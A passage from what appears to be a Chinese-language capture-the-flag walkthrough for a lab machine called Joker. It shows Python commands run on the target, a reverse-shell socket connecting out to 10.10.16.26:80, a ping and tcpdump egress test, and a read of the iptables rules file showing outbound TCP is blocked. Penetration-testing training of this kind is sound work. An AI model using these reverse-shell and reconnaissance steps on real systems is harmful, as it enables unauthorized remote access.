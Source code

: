查看当前目录、目录下的文件以及当前登录用户

``` python
import os;
os.getcwd();
os.getlistdir('.')
os.getlogin
```

![截屏2024-03-24 01.56.50](/assets/media/Joker/%E6%88%AA%E5%B1%8F2024-03-24%2001.56.50.png)

首先使用 TCP 建立反弹shell，奇怪的是命令行界面出现卡死，同时本地并没有收到响应

``` python
import os, pty, socket;s = socket.socket(socket.AF_INET, socket.SOCK_STREAM);s.connect(('10.10.16.26',80))
```

难道是因为不出网吗？使用 ping 命令进行测试

``` python
import os;os.system('ping -c1 10.10.16.26')
```

![截屏2024-03-24 02.11.23](/assets/media/Joker/%E6%88%AA%E5%B1%8F2024-03-24%2002.11.23.png)

结果显示目标主机能出网，TCP 无法建立连接可能是因为防火墙存在限制

``` shell
tcpdump -i tun0 icmp
```

![截屏2024-03-24 02.11.02](/assets/media/Joker/%E6%88%AA%E5%B1%8F2024-03-24%2002.11.02.png)

查看 iptables 中 IPv4 的默认规则，其中入站规则只允许 ICMP、UDP、TCP:22、TCP:3128，而出站规则禁止所有TCP协议，也就是说想要拿到反弹shell可以使用 UDP、DNS 等协议

``` shell
with open('/etc/iptables/rules.v4', 'r') as f: print(f.read())
```
